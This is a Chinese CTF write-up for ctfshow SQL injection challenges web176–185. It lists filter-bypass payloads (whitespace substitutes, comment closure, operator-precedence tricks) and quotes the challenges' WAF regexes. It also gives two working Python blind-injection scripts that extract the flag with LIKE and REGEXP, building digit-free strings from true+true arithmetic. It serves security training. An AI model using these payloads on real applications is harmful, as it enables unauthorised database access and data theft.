 
---
ctfshow

1、web176

过滤方法：出现select，报错

`绕过：大小写绕过`

2、web177~179

过滤方法：过滤 空格，#号

```
绕过方法：用%0a or /**/ 代替空格    %23代替#号
空格被过滤可以用，/**/，%09，%0a，%0b，%0c，%0d还有括号绕过
```

3、web180

过滤方法：过滤%23

```
绕过方法：闭合绕过 or '1'='
注释的方法有三种，-- 和#还有闭合号注释
```


4、web181-182

```mysql

//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";


过滤方法：
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

绕过方法：根据and的优先级大于||或者or，则可以拼接 ` -1'||username='flag ` 从而查询flag出来

5、web183-184
过滤
```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

过滤空格用（）代替，回显只有记录数，可以用like或者regexp进行盲注
LIKE 和 REGEXP之间的重要差别
	LIKE 匹配整个列，如果被匹配的文本在列值中出现，LIKE 将不会找到它，相应的行也不会被返回（除非使用通配符）。而 REGEXP 在列值内进行匹配，如果被匹配的文本在列值中出现，REGEXP 将会找到它，相应的行将被返回，并且 REGEXP 能匹配整个列值（与 LIKE 相同的作用）。
```mysql
tableName=(ctfshow_user)where(pass)like('ctfshow%')
看回显
```
脚本-web184-web184对like进行过滤了
```python

import string
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
url = "https://d03c2933-5349-412c-8351-33438276274f.challenge.ctf.show/select-waf.php"
payload = "ctfshow_user group by pass having pass like 0x{}"
true_flag = "$user_count = 1;"


def make_payload(has: str) -> str:
    return payload.format((has + "%").encode().hex())


def valid_payload(p: str) -> bool:
    data = {
        "tableName": p
    }
    response = requests.post(url, data=data,verify=False)
    return true_flag in response.text


flag = "ctf" # 这里注意表中用 like 'ctf%' 只有一个结果，要提前给出这一小段 flag 头避免其他记录干扰匹配
while True:
    for c in "{}-" + string.digits + string.ascii_lowercase:
        pd = flag+c
        print(f"\r[*] trying {pd}", end="")
        if valid_payload(make_payload(pd)):
            flag += c
            print(f"\r[*] flag: {flag}")
            break
    if flag[-1] == "}":
        break

```

web185

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }

又对数字过滤，只能用纯字母
```

思路
```
mysql 的cancat()可以连接字符
true=1 false=0
select concat(true+true，false，char(true+...*65))    输出为20c
通过concat来拼接

```
脚本-使用的regexp匹配
```python
import requests
import time
import string

def formatString(str):
    temp="concat("
    for x in str:
        tip=0
        if x in string.digits:
            tmp=int(x)
        else:
            tip=1
            temp+="char("
            tmp=ord(x)
        if tmp == 0:
            temp+="false"
        else:
            temp_d="("
            for i in range(0,tmp):
                temp_d+="true+"
            temp_d=temp_d[:-1]+")"
            if tip==1:
                temp_d+=")"
            temp+=temp_d
        temp+=","
    temp=temp[:-1]+")"
    return temp

#print(formatString("0x63746673686f777b"))

url="http://d2f644f5-968d-4301-b037-267c7b183b0e.challenge.ctf.show/select-waf.php"
#dic的顺序可以改一下！我是懒得改了！改顺序可以提高效率！！！
dic="ctfshow{qeryuipadgjklzxvbnm0123456789-}_"
flag="ctfshow{"
for i in range(0,40):
    for x in dic:
        data={
            "tableName":"ctfshow_user group by pass having pass regexp({})".format(formatString(flag+x))
        }
        #print(data)
        response=requests.post(url,data=data)
        time.sleep(0.3)
        if response.text.find("$user_count = 1;")>0:
            print("[**] {} is right".format(x))
            flag+=x
            break
        else:
            #print("[--] {} is wrong".format(x))
            continue
    print("[flag]:"+flag)

```